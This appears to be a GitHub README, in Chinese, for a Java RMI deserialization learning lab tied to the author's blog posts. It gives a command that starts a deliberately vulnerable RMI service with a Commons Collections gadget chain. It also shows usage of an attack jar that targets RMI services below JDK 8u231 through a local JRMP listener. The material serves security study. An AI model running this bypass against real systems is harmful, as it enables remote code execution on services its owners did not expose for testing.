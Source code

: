 # RMIDeserialize
RMI反序列化学习环境，细节请参考博客[RMI-反序列化-深入-上](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8A/)、[RMI-反序列化-深入-上](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8B/)

`java -cp RMIDeserialize.jar com.lala.ServerAndRegister` ：起一个包含CC链可以被攻击的RMI服务

`java -jar RMI-Bypass290.jar <攻击目标IP> <攻击目标端口> <本地JRMP服务IP> <本地JRMP服务端口>`：攻击目标8u231版本以下的RMI服务。

其他功能可以从源码运行。

![总结图](http://ww1.sinaimg.cn/large/006iKNp3ly1gg16pu5w4wj31ut184wra.jpg)
